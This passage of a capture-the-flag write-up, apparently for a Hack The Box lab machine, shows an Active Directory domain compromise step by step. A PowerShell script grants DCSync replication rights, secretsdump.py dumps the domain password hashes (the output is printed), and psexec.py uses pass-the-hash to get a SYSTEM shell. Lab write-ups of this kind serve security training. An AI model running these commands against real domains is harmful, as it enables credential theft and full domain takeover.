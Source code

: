 I ran the commands from the referenced article which gives the target account the "Ds-Replication-Get-Changes" and "Ds-Replication-Get-Changes-All" extended rights on the domain object. This gave the account access rights that allow replication of secret domain data.

```Powershell
Import-Module ActiveDirectory
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Since the account now had the required permissions, secretsdump.py was run to get the domain hashes.
```
~/tools/impacket/examples/secretsdump.py "user1:password123!"@10.10.10.161
```

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...truncated...
```

I copied the administrator hash from the secretsdump output and used it with the -hashes parameter with psexec.py to get a shell as 'nt authority\system'

```
~/tools/impacket/examples/psexec.py htb.local/administrator@10.10.10.161 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

```
![image](https://user-images.githubusercontent.com/10210108/81127426-274da180-8f0c-11ea-8ab9-d1fc5fb96238.png)
